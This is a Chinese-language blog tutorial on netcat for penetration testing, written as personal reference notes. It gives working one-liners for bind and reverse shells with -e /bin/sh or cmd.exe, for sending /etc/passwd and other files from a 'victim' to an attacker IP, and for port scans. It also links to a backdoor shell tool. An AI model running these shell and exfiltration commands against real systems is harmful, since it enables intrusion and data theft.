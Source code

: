 ```yaml
---
title: 【渗透神器系列】nc
date: 2017-04-10 10:36:01
comments: true
tags:
- nc
- 渗透神器
categories: 安全工具
permalink: 01
---
```

<blockquote class="blockquote-center">工欲善其事，必先利其器</blockquote>
　　从事渗透测试工作几年了，在做项目过程中发现良好的渗透技术固然重要，但欲测试出更多的结果，离不开强大的工具。即使是能力超强的大牛，我想也不可能完全手工做渗透，毕竟渗透测试还是个体力活。
　　现在有些人认为渗透测试越来越简单了，因为开源的自动化工具一大推，轮子也是更新换代。即使对安全一窍不通，只要上工具一跑也能获得很多漏洞，甚至自动化获取权限。我必须得承认目前层出不穷的自动化渗透工具已降低了这个行业的入门门槛，但这不意味着渗透测试工作日趋简单。
<!--more -->
　　首先我的理由是安全攻防永远是此消彼长，技术从未停滞过，安全技术永远领先于安全工具，因此只会使用工具，有时会使渗透测试工作很难开展下去，因为防护手段日益更新，而攻击技术却只能依赖滞后的工具，这样的测试效果可见一斑。其次是目前市面上强大的渗透工具，都需要一定的使用基础，绝非傻瓜式的操作，想要用好一款神器，也并非易事。综上所述，我个人认为目前渗透测试工作的难度反而会更大，并且随着国家企业对安全的重视，渗透测试从业者肩上的担子也只会更重。
　　开篇扯了半天蛋无非是想引出本系列的主题——渗透神器，之所以想要介绍记录渗透测试中使用的神器，是因为*工欲善其事，必先利其器*，仅此而已！
　　本篇作为此系列第一篇，将介绍一款渗透界经久不衰的神器，有瑞士军刀美誉的NC。本篇所记内容大部分来自互联网，如觉内容老套可自行绕道，本人尽量全方面记录NC的使用方法，全当个人查询之用，轻喷即可。

### nc Introduce
nc全称netcat,是网络工具中的瑞士军刀，它能通过TCP和UDP在网络中读写数据，功能强大。

### nc Install
linux/mac上默认安装nc，可在命令行下输入nc -h查看。
windows下可下载nc.exe工具使用。

### nc Usage

#### 基本用法
可以输入nc -h查看帮助：
> -h 查看帮助信息 
-d 后台模式 
-g gateway source-routing hop point[s], up to 8
-G num source-routing pointer: 4, 8, 12, ...
-e prog程序重定向，一但连接就执行［危险］ 
-i secs延时的间隔 
-l 监听模式，用于入站连接 
-L 监听模式，连接天闭后仍然继续监听，直到CTR+C 
-n IP地址，不能用域名(不使用DNS反向查询IP地址的域名)
-o film记录16进制的传输 
-p[空格]端口 本地端口号 
-s addr 本地源地址
-r 随机本地及远程端口 
-t 使用Telnet交互方式 
-u UDP模式 
-v 详细输出，用-vv将更详细 
-w 数字 timeout延时间隔 
-z 将输入，输出关掉（用于扫锚时）

#### PortScan(端口扫描)
基本tcp扫描：
```bash
nc -vv ip port
例：nc -vv 192.168.1.1 5000 扫描192.168.1.1的tcp 5000端口
```
设置延时，指定端口扫描：
```bash
nc -vv -w secs ip port-port
例：nc -vv -w 5 192.168.1.1 5000-5002 扫描192.168.1.1的5000-5002端口，网络超时的时间设为5秒。
```
#### 建立连接
##### 正向连接
目标监听一个端口：
```bash
nc -l -p port -e cmd.exe //windows
nc -l -p port -e /bin/sh //linux
```
本机去连接此端口：
```bash
nc ip port 
```
##### 反向链接
本机监听一个端口：
```bash
nc -vv -l -p port
```
目标连接此端口：
```bash
nc -e cmd.exe ip port //windows
nc -e /bin/sh ip port //linux
```
#### 传送文件
##### 目标机上下载文件
```bash
victim machine:
nc attack_ip port <  /etc/passwd
attacker machine:
nc -d -l -p  port  >  tmp
```
实例：
本机作为目标机，因为是内网ip，模拟现实情况，113.214.238.185为攻击机，现在就是要从目标机上下载文件到攻击机上。
目标机：nc.exe 113.214.238.185 9999 < H:\test.txt 将目标机H盘下test.txt文件传输到攻击机9999端口上
攻击机：nc.exe -d -l -p 9999 > test.txt 将本机9999端口传输过来的文件重命名为test.txt

##### 上传文件至目标机
```bash
attacker machine:
nc -d -l -p port < tmp
victim machine:
nc attack_ip port > tmp
```
实例：
攻击机：nc -d -l -p 9990 < test2.txt
目标机：nc 113.214.238.185 9990 > test2.txt

#### 端口数据抓包
```bash
nc -vv -w 2 -o test.txt thief.one 80 21-15
```
#### 自定义
配合|<等命令，可无限放大NC的功能。

##### 加密传输的数据
服务端：$nc localhost 1567 | mcrypt –flush –bare -F -q -d -m ecb > file.txt
客户端：$mcrypt –flush –bare -F -q -m ecb < file.txt | nc -l 1567

##### 目录传输
目标机：$tar -cvf – dir_name | nc -l 1567
攻击机：$nc -n 10.0.0.2 1567 | tar -xvf -

##### 命令记录
```bash
nc -vv victim_ip port < path\file.cmd
```
##### 搭建蜜罐
* nc -L -p 80 作为蜜罐用1：开启并不停地监听80端口，直到CTR+C为止 
* nc -L -p 80 > c:\log.txt 作为蜜罐用2：开启并不停地监听80端口，直到CTR+C,同时把结果输出到c:\log.txt 
* nc -L -p 80 < c:\honeyport.txt 作为蜜罐用3-1：开启并不停地监听80端口，直到CTR+C,并把c:\honeyport.txt中内容送入管道中，亦可起到传送文件作用 
* type.exe c:\honeyport | nc -L -p 80 作为蜜罐用3-2：开启并不停地监听80端口，直到CTR+C,并把c:\honeyport.txt中内容送入管道中,亦可起到传送文件作用 

### 类nc工具
* ncat 安装nmap后默认安装ncat，用法于nc类似。
* [Pyshell](http://thief.one/2016/09/05/PyShell-%E6%9C%A8%E9%A9%AC%E5%90%8E%E9%97%A8/) 致敬nc的一款后门shell工具。



参考文章：
https://www.oschina.net/translate/linux-netcat-command
http://www.w3cschool.cn/dosmlxxsc1/jiszug.html


>转载请说明出处:[【渗透神器系列】nc | nMask'Blog](http://thief.one/2017/04/10/1/)
本文地址：http://thief.one/2017/04/10/1/






